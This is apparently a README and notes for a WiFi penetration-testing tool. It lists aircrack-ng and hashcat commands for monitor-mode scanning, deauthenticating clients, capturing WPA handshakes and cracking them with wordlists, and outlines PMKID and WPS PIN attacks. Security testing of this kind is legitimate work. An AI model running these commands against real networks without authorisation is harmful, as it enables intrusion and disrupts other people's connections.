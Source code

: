 # WiFighter
Easy-to-use WiFI pen-testing/scanning tool written in python


## Installation 

**Dependencies**
```c
sudo zypper in python3 aircrack-ng hashcat ...
```

**Creating python virtual enviroment**

Clone the project
```c
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```c
cd WiFighter
```

Create virtual enviroment
```c
python3 -m venv venv
```

Enter the virtual enviroment
```c
source venv/bin/activate
```

Install python modules (prettytable, tqdm, psutil) 
```c
pip3 install -r requirements.txt
```

Exit from virtual enviroment
```c
deactivate
```

Run the tool
```c
sudo ./wifighter.py
```


## WiFi Scan & Select
- Client scanning (scapy/pyseek)
- WPS scan


## Attack mode
- zkouset po intervalech deauth + jak to bude kdyz dlouho nic nechyti?
- zkusit crack? pripadne zpracovat aircrack-ng
- design handshake cracks

- Utilize hashcat & xctools - HW acc. cracking & generating wordlists, conversions

### 1. WPA/WPA2 Handshake Crack

**Aircrack guide**
- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

**Monitor mode**

Set interface to monitor
```c
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```c
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```c
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```c
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```c
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```c
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake - aircrack**

```c
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```

**Crack handshake - hashcat**

Convert captured handshake to hashcat format
```c
sudo aircrack-ng -J <OUTPUTFILE> <HANDSHAKE>.cap  
```

Crack with wordlist
```c
sudo hashcat -m 22000 <HANDSHAKE>.hccap <WORDLIST>
```


### 2. PMKID Attack (802.11r exploit)

**Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature**

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

**Installation**

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



### 3. WPS

**Reaver or Bully ??**
- Online WPS PIN Brute Force

**Pixie Dust**
- Offline WPS PIN crack
- Není to brute force (rychlejší)
- Využívá slabé kryptografie PINu (né každý router je náchylný)




